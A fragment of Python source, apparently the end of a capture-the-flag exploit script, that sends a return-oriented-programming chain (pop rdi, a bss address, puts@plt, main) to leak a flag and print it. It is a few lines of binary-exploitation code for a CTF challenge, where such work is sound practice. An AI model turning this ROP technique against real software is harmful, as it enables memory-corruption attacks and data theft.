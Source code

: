 ```python
                p64(rdi) + p64(flagBss + 0x100) + p64(putsPlt) + p64(main)) # leave main at last to avoid pipe closing

    success(f'Get FLAG: {sh.recvline(False).decode()}')
    sh.close()
```
